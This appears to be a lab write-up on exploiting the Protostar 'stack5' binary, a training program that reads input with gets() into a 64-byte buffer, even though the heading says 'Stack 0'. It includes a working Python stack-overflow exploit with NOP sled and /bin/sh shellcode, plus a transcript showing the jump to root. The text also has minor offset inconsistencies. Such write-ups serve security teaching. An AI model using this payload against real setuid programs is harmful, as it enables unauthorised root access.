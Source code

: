 # Stack 0

## Problem

We call gdb to list the functions that are in the program and we find that there
is only one function this time.

```gdb
info function
>>>File stack5/stack5.c:
>>>int main(int, char **);
```

We try to disassemble the main function to figure out what we are trying to exploit.

```gbd
Dump of assembler code for function main:
0x080483c4 <main+0>:    push   ebp
0x080483c5 <main+1>:    mov    ebp,esp
0x080483c7 <main+3>:    and    esp,0xfffffff0
0x080483ca <main+6>:    sub    esp,0x50
0x080483cd <main+9>:    lea    eax,[esp+0x10]
0x080483d1 <main+13>:   mov    DWORD PTR [esp],eax
0x080483d4 <main+16>:   call   0x80482e8 <gets@plt>
0x080483d9 <main+21>:   leave
0x080483da <main+22>:   ret
End of assembler dump.
```

There only seems to be a function call `gets` which we can try to maneuver with.

## Idea and Attack process

We plan to inject code through the `gets` call by overflowing the stack such
that we can inject some form of code that we want to run.

There are 72bytes to replace from top of stack to ebp. We also have to replace
4 more bytes to remove the ebp of the previous caller then we can inject the
address of the shellcode which is 8 bytes after the current ebp. Recall that the
block below the ebp is the previous ebp (from push ebp) followed by the return
address and following that address will be our shellcode.

```gbd
b*0x080483d1
run
info reg ebp esp
ebp            0xbffffcb8       0xbffffcb8
esp            0xbffffc60       0xbffffc60
```

We first figure out what is the ebp and esp that we should manipulate with.
From the output, we can guess the size of the buffer and we can be sure that the
size of the buffer is still 64bytes, and the 76bytes planned initially is valid.

We construct a python file to conjure up the needed values to run our code.

```python
import struct
filler = "1" * 76
addr = struct.pack("I", 0xbffffcc4+64)
nop = "\x90"*128
code =  "\x31\xc0\x31\xdb\xb0\x06\xcd\x80\x53\x68/tty\x68/dev\x89\xe3\x31\xc9\x66\xb9\x12\x27\xb0\x05\xcd\x80\x31\xc0\x50\x68//sh\x68/bin\x89\xe3\x50\x53\x89\xe1\x99\xb0\x0b\xcd\x80"

print filler+addr+nop+code
```

We position our address 50bytes after the ebp such that the address will fall
within the nop instructions that is injected. When the CPU runs the nop, it will
keep executing till it reaches the shell code that we plan to inject. The shell
code was obtained online.

```bash
whoami
>>>user
vim stack5_py.py
python stack5_py.py > /tmp/payload
./stack5 < /tmp/payload
whoami
>>>root
```

Running the script, we get the shellcode to run and when we prompt `whoami` now,
it returns root instead of user.

## Source code

```c
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
#include <string.h>

int main(int argc, char **argv)
{
  char buffer[64];

  gets(buffer);
}
```
